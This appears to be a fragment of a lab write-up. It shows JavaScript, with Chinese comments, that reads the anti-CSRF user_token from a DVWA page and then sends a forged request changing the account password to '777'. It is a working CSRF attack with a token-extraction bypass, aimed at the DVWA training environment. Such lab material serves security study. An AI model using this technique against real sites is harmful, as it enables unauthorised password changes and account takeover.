```javascript=
	const parser = new DOMParser();

	//把resoonse資料轉成dom
	const htmlDoc =  parser.parseFromString(data, "text/html");


	//querySelector 抓取 token 
	let token =  htmlDoc.querySelector("input[name=user_token]").value; 

	//回傳token
	return token;

}






async function csrf_send() {

	//拿token
	let url = "http://www.dvwa.com/vulnerabilities/csrf/";
    
	let token =  await getToken(url);

        //csrf 
	csrf_url_Request = "http://www.dvwa.com/vulnerabilities/csrf/?password_new=777&password_conf=777&Change=Change&user_token="

	//加上token 
	csrf_url_Request += token;

	//console.log(csrf_request) ;
	
        //fetch 發出請求
	fetch(csrf_url_Request);

}


csrf_send();



</script>

</html>

```
